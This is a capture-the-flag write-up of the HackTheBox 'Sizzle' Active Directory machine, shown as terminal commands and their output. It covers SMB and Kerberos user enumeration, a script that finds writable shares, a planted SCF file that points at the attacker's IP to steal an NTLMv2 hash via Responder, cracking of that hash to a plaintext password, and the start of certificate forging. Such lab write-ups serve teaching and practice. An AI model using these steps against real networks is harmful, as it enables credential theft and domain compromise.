# CTF Penetration Testing

## Platform: HackTheBox

### Machine: [Sizzle](https://www.hackthebox.com/machines/Sizzle)


- Machine type:  Windows
- Machine difficulty: ⬜ Insane (<span style="color:#e63c35;">7.1</span>)

> Sizzle is an insane difficulty Windows box with an Active Directory environment. A writable directory in an SMB share allows to steal NTLM hashes which can be cracked to access the Certificate Services Portal. A self signed certificate can be created using the CA and used for PSRemoting. A SPN associated with a user allows a kerberoast attack on the box. The user is found to have Replication rights which can be abused to get Administrator hashes via DCSync.

#### Tools Used

**Linux**:
- bloodhound
- covenant (docker)
- evil-winrm
- impacket-psexec
- impacket-smbserver
- impacket-ticketConverter
- john
- kerbrute
- netexec
- nmap
- openssl
- responder
- smbclient

**Windows**:
- net.exe
- reg.exe
- Rubeus.exe
- SharpHound.exe

#### Skills Required

- AD Enumeration
- Mimikatz Usage

#### Skills Learned

- Passwordless Login
- SCF File Attack
- SMB Relay Attack
- Bypass AppLocker
- Kerberoasting
- Covenant C2 Usage
- DCSync

#### Machine Writeup


`ifconfig tun0`:
```
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.32📌 netmask 255.255.254.0  destination 10.10.14.32
        inet6 dead:beef:2::101e  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::e0f4:a9cb:e7fb:949c  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 224  bytes 94880 (92.6 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 378  bytes 330337 (322.5 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`fping 10.10.10.103`:
```
10.10.10.103 is alive
```

`sudo nmap -Pn -sSV -p- -T5 10.10.10.103`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-12 12:21 EST
Nmap scan report for sizzle.HTB.LOCAL (10.10.10.103)
Host is up (0.13s latency).
Not shown: 65506 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd🌐
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0🌐
135/tcp   open  msrpc         Microsoft Windows RPC🌐
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn🌐
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)🌐
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0🌐
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)🌐
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49688/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49689/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
49706/tcp open  msrpc         Microsoft Windows RPC
49723/tcp open  msrpc         Microsoft Windows RPC
49742/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: SIZZLE; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 381.27 seconds
```

`sudo nmap -Pn -sS --script=ldap-rootdse -p389 10.10.10.103`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-12 12:20 EST
Nmap scan report for 10.10.10.103
Host is up (0.21s latency).

PORT    STATE SERVICE
389/tcp open  ldap
| ldap-rootdse: 
| LDAP Results
|   <ROOT>
|       currentTime: 20250112172016.0Z
|       subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=HTB,DC=LOCAL
|       dsServiceName: CN=NTDS Settings,CN=SIZZLE,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=HTB,DC=LOCAL
|       namingContexts: DC=HTB,DC=LOCAL
|       namingContexts: CN=Configuration,DC=HTB,DC=LOCAL
|       namingContexts: CN=Schema,CN=Configuration,DC=HTB,DC=LOCAL
|       namingContexts: DC=DomainDnsZones,DC=HTB,DC=LOCAL
|       namingContexts: DC=ForestDnsZones,DC=HTB,DC=LOCAL
|       defaultNamingContext: DC=HTB,DC=LOCAL
|       schemaNamingContext: CN=Schema,CN=Configuration,DC=HTB,DC=LOCAL
|       configurationNamingContext: CN=Configuration,DC=HTB,DC=LOCAL
|       rootDomainNamingContext: DC=HTB,DC=LOCAL
|       supportedControl: 1.2.840.113556.1.4.319
|       supportedControl: 1.2.840.113556.1.4.801
|       supportedControl: 1.2.840.113556.1.4.473
|       supportedControl: 1.2.840.113556.1.4.528
|       supportedControl: 1.2.840.113556.1.4.417
|       supportedControl: 1.2.840.113556.1.4.619
|       supportedControl: 1.2.840.113556.1.4.841
|       supportedControl: 1.2.840.113556.1.4.529
|       supportedControl: 1.2.840.113556.1.4.805
|       supportedControl: 1.2.840.113556.1.4.521
|       supportedControl: 1.2.840.113556.1.4.970
|       supportedControl: 1.2.840.113556.1.4.1338
|       supportedControl: 1.2.840.113556.1.4.474
|       supportedControl: 1.2.840.113556.1.4.1339
|       supportedControl: 1.2.840.113556.1.4.1340
|       supportedControl: 1.2.840.113556.1.4.1413
|       supportedControl: 2.16.840.1.113730.3.4.9
|       supportedControl: 2.16.840.1.113730.3.4.10
|       supportedControl: 1.2.840.113556.1.4.1504
|       supportedControl: 1.2.840.113556.1.4.1852
|       supportedControl: 1.2.840.113556.1.4.802
|       supportedControl: 1.2.840.113556.1.4.1907
|       supportedControl: 1.2.840.113556.1.4.1948
|       supportedControl: 1.2.840.113556.1.4.1974
|       supportedControl: 1.2.840.113556.1.4.1341
|       supportedControl: 1.2.840.113556.1.4.2026
|       supportedControl: 1.2.840.113556.1.4.2064
|       supportedControl: 1.2.840.113556.1.4.2065
|       supportedControl: 1.2.840.113556.1.4.2066
|       supportedControl: 1.2.840.113556.1.4.2090
|       supportedControl: 1.2.840.113556.1.4.2205
|       supportedControl: 1.2.840.113556.1.4.2204
|       supportedControl: 1.2.840.113556.1.4.2206
|       supportedControl: 1.2.840.113556.1.4.2211
|       supportedControl: 1.2.840.113556.1.4.2239
|       supportedControl: 1.2.840.113556.1.4.2255
|       supportedControl: 1.2.840.113556.1.4.2256
|       supportedControl: 1.2.840.113556.1.4.2309
|       supportedLDAPVersion: 3
|       supportedLDAPVersion: 2
|       supportedLDAPPolicies: MaxPoolThreads
|       supportedLDAPPolicies: MaxPercentDirSyncRequests
|       supportedLDAPPolicies: MaxDatagramRecv
|       supportedLDAPPolicies: MaxReceiveBuffer
|       supportedLDAPPolicies: InitRecvTimeout
|       supportedLDAPPolicies: MaxConnections
|       supportedLDAPPolicies: MaxConnIdleTime
|       supportedLDAPPolicies: MaxPageSize
|       supportedLDAPPolicies: MaxBatchReturnMessages
|       supportedLDAPPolicies: MaxQueryDuration
|       supportedLDAPPolicies: MaxDirSyncDuration
|       supportedLDAPPolicies: MaxTempTableSize
|       supportedLDAPPolicies: MaxResultSetSize
|       supportedLDAPPolicies: MinResultSets
|       supportedLDAPPolicies: MaxResultSetsPerConn
|       supportedLDAPPolicies: MaxNotificationPerConn
|       supportedLDAPPolicies: MaxValRange
|       supportedLDAPPolicies: MaxValRangeTransitive
|       supportedLDAPPolicies: ThreadMemoryLimit
|       supportedLDAPPolicies: SystemMemoryLimitPercent
|       highestCommittedUSN: 143485
|       supportedSASLMechanisms: GSSAPI
|       supportedSASLMechanisms: GSS-SPNEGO
|       supportedSASLMechanisms: EXTERNAL
|       supportedSASLMechanisms: DIGEST-MD5
|       dnsHostName: sizzle.HTB.LOCAL📌
|       ldapServiceName: HTB.LOCAL:sizzle$@HTB.LOCAL
|       serverName: CN=SIZZLE,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=HTB,DC=LOCAL
|       supportedCapabilities: 1.2.840.113556.1.4.800
|       supportedCapabilities: 1.2.840.113556.1.4.1670
|       supportedCapabilities: 1.2.840.113556.1.4.1791
|       supportedCapabilities: 1.2.840.113556.1.4.1935
|       supportedCapabilities: 1.2.840.113556.1.4.2080
|       supportedCapabilities: 1.2.840.113556.1.4.2237
|       isSynchronized: TRUE
|       isGlobalCatalogReady: TRUE
|       domainFunctionality: 7
|       forestFunctionality: 7
|_      domainControllerFunctionality: 7
Service Info: Host: SIZZLE; OS: Windows

Nmap done: 1 IP address (1 host up) scanned in 1.27 seconds
```

`echo -e '10.10.10.103\tsizzle.HTB.LOCAL sizzle HTB.LOCAL' | sudo tee -a /etc/hosts`:
```
10.10.10.103    sizzle.HTB.LOCAL sizzle HTB.LOCAL
```

`ftp 10.10.10.103`:
```
Connected to 10.10.10.103.
220 Microsoft FTP Service
Name (10.10.10.103:nabla): anonymous      
331 Anonymous access allowed, send identity (e-mail name) as password.📌
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||60483|)
150 Opening ASCII mode data connection.
226 Transfer complete.
ftp> mkdir TEST
550 Access is denied.
```
❌

`netexec smb 10.10.10.103`:
```
SMB         10.10.10.103    445    SIZZLE           [*] Windows 10 / Server 2016 Build 14393 x64 (name:SIZZLE) (domain:HTB.LOCAL) (signing:True) (SMBv1:False)📌
```

`netexec smb 10.10.10.103 -u 'a' -p ''`:
```
SMB         10.10.10.103    445    SIZZLE           [*] Windows 10 / Server 2016 Build 14393 x64 (name:SIZZLE) (domain:HTB.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.103    445    SIZZLE           [+] HTB.LOCAL\a:🔑
```

`netexec smb 10.10.10.103 -u 'a' -p '' --shares`:
```
SMB         10.10.10.103    445    SIZZLE           [*] Windows 10 / Server 2016 Build 14393 x64 (name:SIZZLE) (domain:HTB.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.103    445    SIZZLE           [+] HTB.LOCAL\a: 
SMB         10.10.10.103    445    SIZZLE           [*] Enumerated shares
SMB         10.10.10.103    445    SIZZLE           Share           Permissions     Remark
SMB         10.10.10.103    445    SIZZLE           -----           -----------     ------
SMB         10.10.10.103    445    SIZZLE           ADMIN$                          Remote Admin
SMB         10.10.10.103    445    SIZZLE           C$                              Default share
SMB         10.10.10.103    445    SIZZLE           CertEnroll                      Active Directory Certificate Services share
SMB         10.10.10.103    445    SIZZLE           Department Shares READ🔍            
SMB         10.10.10.103    445    SIZZLE           IPC$            READ            Remote IPC
SMB         10.10.10.103    445    SIZZLE           NETLOGON                        Logon server share 
SMB         10.10.10.103    445    SIZZLE           Operations                      
SMB         10.10.10.103    445    SIZZLE           SYSVOL                          Logon server share
```

`netexec smb 10.10.10.103 -u 'a' -p '' --rid-brute`:
```
SMB         10.10.10.103    445    SIZZLE           [*] Windows 10 / Server 2016 Build 14393 x64 (name:SIZZLE) (domain:HTB.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.103    445    SIZZLE           [+] HTB.LOCAL\a: 
SMB         10.10.10.103    445    SIZZLE           498: HTB\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.10.103    445    SIZZLE           500: HTB\Administrator (SidTypeUser)
SMB         10.10.10.103    445    SIZZLE           501: HTB\Guest (SidTypeUser)
SMB         10.10.10.103    445    SIZZLE           502: HTB\krbtgt (SidTypeUser)
SMB         10.10.10.103    445    SIZZLE           503: HTB\DefaultAccount (SidTypeUser)
SMB         10.10.10.103    445    SIZZLE           512: HTB\Domain Admins (SidTypeGroup)
SMB         10.10.10.103    445    SIZZLE           513: HTB\Domain Users (SidTypeGroup)
SMB         10.10.10.103    445    SIZZLE           514: HTB\Domain Guests (SidTypeGroup)
SMB         10.10.10.103    445    SIZZLE           515: HTB\Domain Computers (SidTypeGroup)
SMB         10.10.10.103    445    SIZZLE           516: HTB\Domain Controllers (SidTypeGroup)
SMB         10.10.10.103    445    SIZZLE           517: HTB\Cert Publishers (SidTypeAlias)
SMB         10.10.10.103    445    SIZZLE           518: HTB\Schema Admins (SidTypeGroup)
SMB         10.10.10.103    445    SIZZLE           519: HTB\Enterprise Admins (SidTypeGroup)
SMB         10.10.10.103    445    SIZZLE           520: HTB\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.10.103    445    SIZZLE           521: HTB\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.10.103    445    SIZZLE           522: HTB\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.10.103    445    SIZZLE           525: HTB\Protected Users (SidTypeGroup)
SMB         10.10.10.103    445    SIZZLE           526: HTB\Key Admins (SidTypeGroup)
SMB         10.10.10.103    445    SIZZLE           527: HTB\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.10.103    445    SIZZLE           553: HTB\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.10.103    445    SIZZLE           571: HTB\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.10.103    445    SIZZLE           572: HTB\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.10.103    445    SIZZLE           1001: HTB\SIZZLE$ (SidTypeUser)
SMB         10.10.10.103    445    SIZZLE           1102: HTB\DnsAdmins (SidTypeAlias)
SMB         10.10.10.103    445    SIZZLE           1103: HTB\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.10.103    445    SIZZLE           1104: HTB\amanda (SidTypeUser)
SMB         10.10.10.103    445    SIZZLE           1603: HTB\mrlky (SidTypeUser)
SMB         10.10.10.103    445    SIZZLE           1604: HTB\sizzler (SidTypeUser)
```

`netexec smb 10.10.10.103 -u 'a' -p '' --rid-brute | grep 'SidTypeUser' | awk '{print $6}' | awk -F '\' '{print $2}' | awk '{print tolower($s0)}' | sort -u | tee ./domain_users.txt`:
```
administrator
amanda
defaultaccount
guest
krbtgt
mrlky
sizzle$
sizzler
```

`kerbrute userenum --dc 10.10.10.103 -d 'HTB.LOCAL' ./domain_users.txt`:
```
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 01/12/25 - Ronnie Flathers @ropnop

2025/01/12 12:29:19 >  Using KDC(s):
2025/01/12 12:29:19 >   10.10.10.103:88

2025/01/12 12:29:19 >  [+] VALID USERNAME:       administrator@HTB.LOCAL
2025/01/12 12:29:19 >  [+] VALID USERNAME:       amanda@HTB.LOCAL
2025/01/12 12:29:19 >  [+] VALID USERNAME:       guest@HTB.LOCAL
2025/01/12 12:29:19 >  [+] VALID USERNAME:       mrlky@HTB.LOCAL
2025/01/12 12:29:19 >  [+] VALID USERNAME:       sizzler@HTB.LOCAL
2025/01/12 12:29:19 >  [+] VALID USERNAME:       sizzle$@HTB.LOCAL
2025/01/12 12:29:19 >  Done! Tested 8 usernames (6 valid) in 0.205 seconds
```

`kerbrute userenum --dc 10.10.10.103 -d 'HTB.LOCAL' ./domain_users.txt | grep 'VALID' | awk '{print $7}' | awk -F '@' '{print $1}' | sort -u | tee ./domain_users.txt `:
```
administrator
amanda👤
guest
mrlky👤
sizzle$
sizzler👤
```

`smbclient --user='a' --no-pass '//10.10.10.103/Department Shares'`:
```
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Jul  3 11:22:32 2018
  ..                                  D        0  Tue Jul  3 11:22:32 2018
  Accounting                          D        0  Mon Jul  2 15:21:43 2018
  Audit                               D        0  Mon Jul  2 15:14:28 2018
  Banking                             D        0  Tue Jul  3 11:22:39 2018
  CEO_protected                       D        0  Mon Jul  2 15:15:01 2018
  Devops                              D        0  Mon Jul  2 15:19:33 2018
  Finance                             D        0  Mon Jul  2 15:11:57 2018
  HR                                  D        0  Mon Jul  2 15:16:11 2018
  Infosec                             D        0  Mon Jul  2 15:14:24 2018
  Infrastructure                      D        0  Mon Jul  2 15:13:59 2018
  IT                                  D        0  Mon Jul  2 15:12:04 2018
  Legal                               D        0  Mon Jul  2 15:12:09 2018
  M&A                                 D        0  Mon Jul  2 15:15:25 2018
  Marketing                           D        0  Mon Jul  2 15:14:43 2018
  R&D                                 D        0  Mon Jul  2 15:11:47 2018
  Sales                               D        0  Mon Jul  2 15:14:37 2018
  Security                            D        0  Mon Jul  2 15:21:47 2018
  Tax                                 D        0  Mon Jul  2 15:16:54 2018
  Users                               D        0  Tue Jul 10 17:39:32 2018
  ZZ_ARCHIVE                          D        0  Mon Jul  2 15:32:58 2018

                7779839 blocks of size 4096. 3197658 blocks available
```

`sudo mkdir /mnt/Department`

`sudo mount -t cifs -o rw,username=a,password= '//10.10.10.103/Department Shares' /mnt/Department`

`find /mnt/Department -type d`:
```
/mnt/Department
/mnt/Department/Accounting
/mnt/Department/Audit
/mnt/Department/Banking
/mnt/Department/Banking/Offshore
/mnt/Department/Banking/Offshore/Clients
/mnt/Department/Banking/Offshore/Data
/mnt/Department/Banking/Offshore/Dev
/mnt/Department/Banking/Offshore/Plans
/mnt/Department/Banking/Offshore/Sites

[...]
```

`vim ./check_writable_folders.sh`:
```bash
#!/bin/bash
list=$(find /mnt/Department -type d)
while IFS= read -r folder; do
    echo "Checking: $folder"  # Debug
    touch "$folder/TEST" 2> /dev/null
    if [ $? -eq 0 ]; then
        echo "$folder is writable!"
    fi
done <<< "$list"
```

`chmod u+x ./check_writable_folders.sh`

`sudo ./check_writable_folders.sh`:
```
Checking: /mnt/Department
Checking: /mnt/Department/Accounting
Checking: /mnt/Department/Audit
Checking: /mnt/Department/Banking
Checking: /mnt/Department/Banking/Offshore
Checking: /mnt/Department/Banking/Offshore/Clients
Checking: /mnt/Department/Banking/Offshore/Data
Checking: /mnt/Department/Banking/Offshore/Dev
Checking: /mnt/Department/Banking/Offshore/Plans
Checking: /mnt/Department/Banking/Offshore/Sites
Checking: /mnt/Department/CEO_protected
Checking: /mnt/Department/Devops
Checking: /mnt/Department/Finance
Checking: /mnt/Department/HR
Checking: /mnt/Department/HR/Benefits
Checking: /mnt/Department/HR/Corporate Events

[...]

Checking: /mnt/Department/Users/jose
Checking: /mnt/Department/Users/lkys37en
Checking: /mnt/Department/Users/morgan
Checking: /mnt/Department/Users/mrb3n
Checking: /mnt/Department/Users/Public
/mnt/Department/Users/Public is writable!📌
Checking: /mnt/Department/ZZ_ARCHIVE
/mnt/Department/ZZ_ARCHIVE is writable!📌
```

`sudo responder -I tun0`:
```
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.32]
    Responder IPv6             [dead:beef:2::101e]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-V8GR52XWTXG]
    Responder Domain Name      [UC2S.LOCAL]
    Responder DCE-RPC Port     [49012]

[+] Listening for events...
```

`vim ./pwn.scf`:
```
[Shell]
Command=2
IconFile=\\10.10.14.32\fakesmbshare\fakesmbfile
```

`sudo cp ./pwn.scf /mnt/Department/ZZ_ARCHIVE`

`sudo cp ./pwn.scf /mnt/Department/Users/Public`

`ls -l /mnt/Department/Users/Public/pwn.scf`:
```
-rwxr-xr-x 1 root root 66 Jan 12 13:37 /mnt/Department/Users/Public/pwn.scf
```

`ls -l /mnt/Department/ZZ_ARCHIVE/pwn.scf`:
```
-rwxr-xr-x 1 root root 66 Jan 12 13:32 /mnt/Department/ZZ_ARCHIVE/pwn.scf
```

```
[...]

[SMB] NTLMv2-SSP Client   : 10.10.10.103
[SMB] NTLMv2-SSP Username : HTB\amanda
[SMB] NTLMv2-SSP Hash     : amanda::HTB:7774e3fbcec950ba:3B83DB8E363CF10F883A9609BB6AAE61:01010000000000008040527DF164DB01548A522E9A0B39080000000002000800550043003200530001001E00570049004E002D005600380047005200350032005800570054005800470004003400570049004E002D00560038004700520035003200580057005400580047002E0055004300320053002E004C004F00430041004C000300140055004300320053002E004C004F00430041004C000500140055004300320053002E004C004F00430041004C00070008008040527DF164DB010600040002000000080030003000000000000000010000000020000083780851A0072BC7F466DB199EE6BE846C432C5161051D52A5B4797D7D0BA4DC0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E0033003200000000000000000000000000📌
```

`vim ./amanda_ntlm_hash.txt`:
```
amanda::HTB:7774e3fbcec950ba:3B83DB8E363CF10F883A9609BB6AAE61:01010000000000008040527DF164DB01548A522E9A0B39080000000002000800550043003200530001001E00570049004E002D005600380047005200350032005800570054005800470004003400570049004E002D00560038004700520035003200580057005400580047002E0055004300320053002E004C004F00430041004C000300140055004300320053002E004C004F00430041004C000500140055004300320053002E004C004F00430041004C00070008008040527DF164DB010600040002000000080030003000000000000000010000000020000083780851A0072BC7F466DB199EE6BE846C432C5161051D52A5B4797D7D0BA4DC0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E0033003200000000000000000000000000
```

`john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt ./amanda_ntlm_hash.txt`:
```
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ashare1972       (amanda)🔑     
1g 0:00:00:08 DONE (2025-01-12 13:42) 0.1128g/s 1288Kp/s 1288Kc/s 1288KC/s Ashiah08..Arsenic
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

`netexec smb 10.10.10.103 -u 'amanda' -p 'Ashare1972'`:
```
SMB         10.10.10.103    445    SIZZLE           [*] Windows 10 / Server 2016 Build 14393 x64 (name:SIZZLE) (domain:HTB.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.103    445    SIZZLE           [+] HTB.LOCAL\amanda:Ashare1972🔑
```

`netexec winrm 10.10.10.103 -u 'amanda' -p 'Ashare1972'`:
```
[17:04:24] ERROR    Exception while calling proto_flow() on target 10.10.10.103: 'www-authenticate'                                                                         connection.py:168
```
❌

`evil-winrm -i 10.10.10.103 -u 'amanda' -p 'Ashare1972'`:
```                                     
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
                                        
Error: An error of type WinRM::WinRMHTTPTransportError happened, message is Unable to parse authorization header. Headers: {"Server"=>"Microsoft-HTTPAPI/2.0", "Date"=>"Sun, 12 Jan 2025 22:05:44 GMT", "Connection"=>"close", "Content-Length"=>"0"}
Body:  (401).
                                        
Error: Exiting with code 1
```
❌

`netexec smb 10.10.10.103 -u 'amanda' -p 'Ashare1972' --shares`:
```
SMB         10.10.10.103    445    SIZZLE           [*] Windows 10 / Server 2016 Build 14393 x64 (name:SIZZLE) (domain:HTB.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.103    445    SIZZLE           [+] HTB.LOCAL\amanda:Ashare1972 
SMB         10.10.10.103    445    SIZZLE           [*] Enumerated shares
SMB         10.10.10.103    445    SIZZLE           Share           Permissions     Remark
SMB         10.10.10.103    445    SIZZLE           -----           -----------     ------
SMB         10.10.10.103    445    SIZZLE           ADMIN$                          Remote Admin
SMB         10.10.10.103    445    SIZZLE           C$                              Default share
SMB         10.10.10.103    445    SIZZLE           CertEnroll      READ🔍          Active Directory Certificate Services share
SMB         10.10.10.103    445    SIZZLE           Department Shares READ            
SMB         10.10.10.103    445    SIZZLE           IPC$            READ            Remote IPC
SMB         10.10.10.103    445    SIZZLE           NETLOGON        READ            Logon server share 
SMB         10.10.10.103    445    SIZZLE           Operations                      
SMB         10.10.10.103    445    SIZZLE           SYSVOL          READ            Logon server share 
```

`smbclient --user='amanda' --password='Ashare1972' //10.10.10.103/CertEnroll`:
```
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Jan 12 12:19:05 2025
  ..                                  D        0  Sun Jan 12 12:19:05 2025
  HTB-SIZZLE-CA+.crl                  A      721  Sun Jan 12 12:19:05 2025
  HTB-SIZZLE-CA.crl                   A      909  Sun Jan 12 12:19:05 2025
  nsrev_HTB-SIZZLE-CA.asp             A      322  Mon Jul  2 16:36:05 2018
  sizzle.HTB.LOCAL_HTB-SIZZLE-CA.crt      A      871  Mon Jul  2 16:36:03 2018🔍
```

`mkdir ./CertEnroll`

`smbclient --user='amanda' --password='Ashare1972' //10.10.10.103/CertEnroll -c 'prompt OFF;recurse ON;lcd /home/nabla/CertEnroll;mget *'`:
```
getting file \HTB-SIZZLE-CA+.crl of size 721 as HTB-SIZZLE-CA+.crl (0.9 KiloBytes/sec) (average 0.9 KiloBytes/sec)
getting file \HTB-SIZZLE-CA.crl of size 909 as HTB-SIZZLE-CA.crl (1.0 KiloBytes/sec) (average 0.9 KiloBytes/sec)
getting file \nsrev_HTB-SIZZLE-CA.asp of size 322 as nsrev_HTB-SIZZLE-CA.asp (0.3 KiloBytes/sec) (average 0.7 KiloBytes/sec)
getting file \sizzle.HTB.LOCAL_HTB-SIZZLE-CA.crt of size 871 as sizzle.HTB.LOCAL_HTB-SIZZLE-CA.crt (1.0 KiloBytes/sec) (average 0.8 KiloBytes/sec)
```

`file ./CertEnroll/*`:
```
./CertEnroll/HTB-SIZZLE-CA+.crl:                 data
./CertEnroll/HTB-SIZZLE-CA.crl:                  data
./CertEnroll/nsrev_HTB-SIZZLE-CA.asp:            ASCII text, with CRLF line terminators
./CertEnroll/sizzle.HTB.LOCAL_HTB-SIZZLE-CA.crt: Certificate, Version=3
```

`cat ./CertEnroll/nsrev_HTB-SIZZLE-CA.asp`:
```asp
<%
Response.ContentType = "application/x-netscape-revocation"
serialnumber = Request.QueryString
set Admin = Server.CreateObject("CertificateAuthority.Admin")

stat = Admin.IsValidCertificate("sizzle.HTB.LOCAL\HTB-SIZZLE-CA", serialnumber)

if stat = 3 then Response.Write("0") else Response.Write("1") end if
%>
```

`openssl genrsa -des3 -out ./amanda.key 2048 # create private key`:
```
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:
```

`openssl req -new -key ./amanda.key -out ./amanda.csr # create certificate signing request (csr)`:
```
Enter pass phrase for amanda.key:
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:

Please enter the following 'extra' attributes
to be sent with your certificate request
A challenge password []:
An optional company name []:
```

`ls -l ./amanda*`:
```
-rw-rw-r-- 1 nabla nabla  956 Jan 12 16:51 ./amanda.csr
-rw------- 1 nabla nabla 1862 Jan 12 16:50 ./amanda.key
```

